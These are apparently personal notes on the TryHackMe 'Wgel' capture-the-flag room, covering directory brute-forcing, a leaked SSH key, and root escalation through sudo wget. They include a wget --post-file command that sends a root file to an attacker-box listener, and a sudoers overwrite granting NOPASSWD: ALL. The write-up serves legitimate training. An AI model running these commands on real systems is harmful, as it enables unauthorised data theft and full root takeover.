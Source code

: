 
2024-07-01 16:46

Source: #tryhackme 

Tags: [[Privilege Escalation]] 

### HTTP

at port 80 Apache is running
on seeing the source code we see a comment that suggests a possible user on the server 
#### Dirbuster 

1. run gobuster on `http://<ip>`
2. we find /sitemap
3. run gobuster again on `http://<ip>/sitemap`
4. we find `.ssh` private `rsa` key of the user found in the source code
### SSH 

1. copy the content of the key to a file
2. run `chmod 600 file` to give the file appropriate permissions
3. login via [[ssh (22 port)]] as the user found in the source code, using the file as a private key (use -i to specify key)
### Privilege Escalation 

1. `sudo -l `works and tells us we can run `wget` with `sudo`
2. `gtfobins` has a exploit of file upload for wget
3. start listening using `nc` on port 9000 in a new terminal
4. according to `gtfobins` we craft an attack to directly get the root flag- 
```
sudo wget --post-file=/root/root_flag.txt http://<Attackbox IP>:9000
```
### Root Shell

1. `gtfobin` has exploits listed for file upload/download/read of `wget`
2. To get a shell with admin privileges we first get the file using the same way as with the flag, we edit the `sudoers` file locally by adding our own settings for the user.`/etc/sudoers`
```
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```
3. we raise a server with python3 in the path where our `sudoers` file is .
4. And in the wgel machine we execute the `wget`(to get the new `sudoers` file from our device to the wgel machine) command with `sudo` which will overwrite the `/etc/sudoers`. **We locate ourselves in the folder of `/etc/`** and execute:
```
sudo /usr/bin/wget <Attackbox IP>/sudoers --output-document=sudoers
```
5. then run `sudo su`



### References
[TryHackMe | Wgel CTF](https://tryhackme.com/r/room/wgelctf)
